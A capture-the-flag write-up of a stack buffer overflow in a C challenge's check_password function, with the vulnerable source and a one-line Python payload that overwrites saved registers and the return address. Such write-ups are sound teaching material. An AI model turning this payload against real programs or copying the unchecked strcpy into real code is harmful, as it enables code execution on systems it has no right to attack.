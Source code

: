 # Challenge `Super Secure System` Writeup

- **Vulnerability:** Buffer Overflow
  - Buffer overflow occurs when data exceeds the buffer's boundaries and overwrites adjacent memory locations.
- **Where:** The vulnerability is present in the `check_password` function within the C code.
  - Specifically, the `strcpy` function is used to copy the password into a buffer of size 32 bytes without checking the length of the input.
- **Impact:** By exploiting this buffer overflow, an attacker can overwrite adjacent memory areas, including the return address of the function, leading to arbitrary code execution or crash.
- **NOTE:** The provided code lacks proper input validation and uses unsafe functions like `strcpy`, which makes it susceptible to buffer overflow attacks.

## Steps to Reproduce

1. Identify the vulnerable `strcpy` function in `check_password`.
2. Create a payload that overflows the buffer and overwrites the return address. The payload consists of:
   - 32 bytes to fill the buffer (`"A" * 32`).
   - 4 bytes to overwrite in between space.
   - 4 bytes to overwrite the EBX with its previous value ("\x01\xa0\x04\x08"`)
   - 4 bytes to overwrite the EBP ("\xc8\xd0\xff\xff").
   - 4 bytes to overwrite the EIP ("\xd9\x87\x04\x08")
3. Send this payload to the program as input.
4. The payload causes a buffer overflow, potentially allowing code execution or crashing the program with an altered control flow.

[POC](`name_of_the_challenge_poc.py`)

### C Code Challenge:
````c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include "general.h"

int check_password(char* password) {
  char buffer[32];
  strcpy(buffer, password);
  if(strcmp(buffer, getflag()) == 0)
    return 1;
  return 0;
}

int main() {
  init();
  char pass[64] = {0};
  read(0, pass, 63);
  if(check_password(pass)){
      printf("Welcome back! Here is the secret flag that you already knew: %s\n", getflag());
  } else {
      printf("Unauthorized user/passwd\n");
  }
}
````
###Solution Passed to the Program:
````python
payload = "A" * 32 + "abcd" + "\x01\xa0\x04\x08"  + "\xc8\xd0\xff\xff" + "\xd9\x87\x04\x08"  
print(payload)
````
